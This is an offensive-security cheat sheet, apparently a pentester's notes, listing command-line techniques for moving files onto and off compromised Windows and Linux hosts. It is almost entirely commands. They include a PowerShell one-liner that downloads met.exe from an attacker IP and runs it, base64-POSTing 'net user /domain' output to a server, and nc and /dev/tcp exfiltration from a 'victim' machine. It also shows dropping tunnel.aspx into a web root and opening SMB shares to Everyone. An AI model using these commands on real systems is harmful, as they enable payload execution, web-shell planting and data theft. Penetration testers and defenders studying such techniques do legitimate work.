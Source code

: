 # File Transfer




## Linux

* [https://snovvcrash.github.io/2018/10/11/simple-http-servers.html](https://snovvcrash.github.io/2018/10/11/simple-http-servers.html)




## Windows



### Base64

Local file to base64:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Local string to base64 and POST:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```



### Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```



### PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```




## Linux2Linux



### /dev/tcp

```
 # Sender:
root@kali:$ tar -zcvf folder.tar.gz folder
root@kali:$ nc -w3 -lvnp 1234 < folder.tar.gz
 # Recipient:
www-data@victim:$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:$ tar -zxvf .folder.tar.gz

 # Recipient:
root@kali:$ nc -w3 -lvnp 1234 > file.txt
 # Sender:
www-data@victim:$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## Linux2Windows

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)



### Base64

Full base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```



### SMB


#### smbserver.py

Start SMB server:

```
$ sudo smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > net use Z: \\10.10.13.37\share
PS > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -name Z -root \\10.10.13.37\share -Credential $cred -PSProvider 'filesystem'
PS > cd Z:
```


#### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```



### FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```



### TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```
